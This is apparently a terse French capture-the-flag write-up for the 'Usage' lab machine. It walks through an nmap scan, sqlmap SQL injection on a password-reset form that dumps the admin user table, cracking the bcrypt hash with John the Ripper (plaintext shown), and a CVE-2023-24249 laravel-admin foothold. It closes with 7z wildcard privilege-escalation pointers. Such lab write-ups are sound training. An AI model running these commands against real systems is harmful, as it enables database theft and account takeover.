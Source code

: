 └─$ nmap -Pn -sVC -T4 usage.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-27 19:07 GMT
Nmap scan report for usage.htb (10.129.1.195)
Host is up (0.089s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Daily Blogs
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![[Pasted image 20240430175952.png]]
# exploit
Cette partie est vulnérable à #Injection_SQL
`http://usage.htb/forget-password`
Il faut copier la requête à partir de burpsuit puis :
```
sqlmap -r sql.txt -p email --batch --level=5 --risk=3 --dbms=mysql --dbs --threads=10
```
	available databases [3]:
	[*] information_schema
	[*] performance_schema
	[*] usage_blog

```
sqlmap -r sql.txt --level=5 --risk=3 --threads=10 --batch -D usage_blog --tables
```
	| admin_menu             |
	| admin_operation_log    |
	| admin_permissions      |
	| admin_role_menu        |
	| admin_role_permissions |
	| admin_role_users       |
	| admin_roles            |
	| admin_user_permissions |
	| admin_users            |
	| blog                   |
	| failed_jobs            |
	| migrations             |
	| password_reset_tokens  |
	| personal_access_tokens |
	| users |

```
sqlmap -r sql.txt --threads=10 --level=5 --risk=3 --batch -D usage_blog -T admin_users --dump
```

```
john hash -w=/usr/share/wordlists/rockyou.txt
```
	Using default input encoding: UTF-8
	Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
	Cost 1 (iteration count) is 1024 for all loaded hashes
	Will run 4 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	whatever1        (?)     
	1g 0:00:00:17 DONE (2024-04-28 01:51) 0.05882g/s 95.29p/s 95.29c/s 95.29C/s alexis1..serena
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed.

# foothold
exploit lavarel-admin interface
https://flyd.uk/post/cve-2023-24249/


# privesc
## lateral movement
~ cat .monitrc
## exploit [7z](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----f1c2793eeb7e--------------------------------) 
